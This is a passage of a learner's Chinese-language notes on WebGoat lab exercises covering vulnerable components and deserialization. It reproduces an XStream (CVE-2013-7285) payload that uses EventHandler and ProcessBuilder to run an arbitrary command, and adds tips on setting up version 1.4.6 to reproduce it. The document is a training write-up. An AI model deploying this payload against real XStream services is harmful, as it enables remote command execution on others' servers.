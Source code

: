 # （三）A6-漏洞组件 & A7-身份认证 & A8-反序列化

## 1 漏洞组件

### 1.1 上来就过的

大概就是1.12会弹出这个提示，但是？这个我的输入有什么关系吗？
不理解

![](../../images/Pasted%20image%2020241203110555.png)

### 1.2 CVE-2013-7285 (XStream)

#### 1.2.1 复现环境配置

先随便试试，大概之后要修改xml来干点什么？

![](../../images/Pasted%20image%2020241203111629.png)

> 看到了似乎有用的
> https://loli.fj.cn/2024/04/25/CVE-2013-7285%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8/#%E5%AE%8C%E6%88%90


```xml
<sorted-set>
    <string>foo</string>
    <dynamic-proxy>
        <interface>java.lang.Comparable</interface>
        <handler class="java.beans.EventHandler">
            <target class="java.lang.ProcessBuilder">
                <command>
                    <string><<command>></string>
                </command>
            </target>
            <action>start</action>
        </handler>
    </dynamic-proxy>
</sorted-set>
```

直接贴上去看看

![](../../images/Pasted%20image%2020241203113529.png)

试图用java自己搞一个环境
一直在报错！

如果只报 `java.lang.ExceptionInInitializerError at com.thoughtworks.xstream.XStream.setupConverters`
那就是pom没写依赖

> 1.4.7修复了这个安全漏洞，需要使用1.4.6复现
> https://github.com/WebGoat/WebGoat/issues/725
> 

